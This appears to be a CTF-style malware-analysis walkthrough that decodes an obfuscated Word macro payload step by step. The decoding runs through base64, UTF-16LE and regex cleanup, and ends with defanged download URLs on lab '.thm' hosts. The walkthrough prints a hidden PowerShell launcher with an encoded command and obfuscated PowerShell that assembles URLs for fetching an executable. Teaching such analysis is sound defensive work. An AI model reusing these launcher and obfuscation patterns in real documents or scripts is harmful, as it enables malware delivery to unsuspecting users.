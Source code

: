 ```
cmd cmd cmd cmd /c msg %username% /v Word experienced an error trying to open the file. & P^Ow^er^she^L^L -w hidden -ENCOD 
```

4. drop bytes > length 124 which shows

```
UwBFAFQALQBWAGEAcgBJAEEAQgBsAGUAIAAgADgAaQBoADUANgA3ACAAIAAoACAAIABbAHQAWQBwAGUAXQAoACIAewAzAH0AewAwAH0AewA0AH0AewAyAH0AewAxAH0AIgAtAGYAJwBZAHMAVAAnACwAJwBSAGUAYwBUAE8AUgB5ACcALAAnAE0ALgBpAE8ALgBEAEkAJwAsACcAcwAnACwAJwBlA ...
```

5. From base64  which shows

```
S.E.T.-.V.a.r.I.A.B.l.e. . .8.i.h.5.6.7. . .(. . .[.t.Y.p.e.].(.".{.3.}.{.0.}.{.4.}.{.2.}.{.1.}.".-.f.'.Y.s.T.'.,.'.R.e.c.T.O.R.y.'.,.'.M...i.O...D.I.'.,.'.s.'.,.'.e.'.).).;. . . .S.E.T.-.I.t.e.m.  
...
```

6. Decode text > Unicode UTF-16LE

```
SET-VarIABle  8ih567  (  [tYpe]("{3}{0}{4}{2}{1}"-f'YsT','RecTORy','M.iO.DI','s','e'));   SET-Item ("vA"+"RiA"+"bLe:R"+"i"+"7xO3") ([TyPe]("{2}{5}{4}{3}{1}{0}"-F 'R','MaNaGE','S','VIcEPoInt','.neT.sEr','Ystem') )  ; 
...
```

7. Find/ replace > regex pattern `['()+'"`]` 

```
SET-VarIABle  8ih567    [tYpe]{3}{0}{4}{2}{1}-fYsT,RecTORy,M.iO.DI,s,e;   SET-Item vARiAbLe:Ri7xO3 [TyPe]{2}{5}{4}{3}{1}{0}-F
...
```

8. find/ replace > regex pattern ` ]b2H_`  replace with `http`

```
K_9O;$O66G=F88W;$Cyg0ku7=$HOMEeAwRr1sj9aeAwBcx4iayeAw -repLACeeAw,[chaR]92$Pa2nur4.dll;$E01B=R7_S;$Mrkjcim=https://cdn.bandityeti.thm/files/mysterygift.exe@https://google.com/@https://www.secretSanta.THM/Goldenticket/THM_MYSTERY_FLAG@https://cdn.bandityeti.THM/files/index/. 
...
```

9. extract urls

```
https://cdn.bandityeti.thm/files/mysterygift.exe@https://google.com/@https://www.secretSanta.THM/Goldenticket/THM_MYSTERY_FLAG@https://cdn.bandityeti.THM/files/index/
```

10. split >  @   `\n` 
11. defang url

```
hxxps[://]cdn[.]bandityeti[.]thm/files/mysterygift[.]exe
hxxps[://]google[.]com/
hxxps[://]www[.]secretSanta[.]THM/Goldenticket/THM_MYSTERY_FLAG
hxxps[://]cdn[.]bandityeti[.]THM/files/index/
```
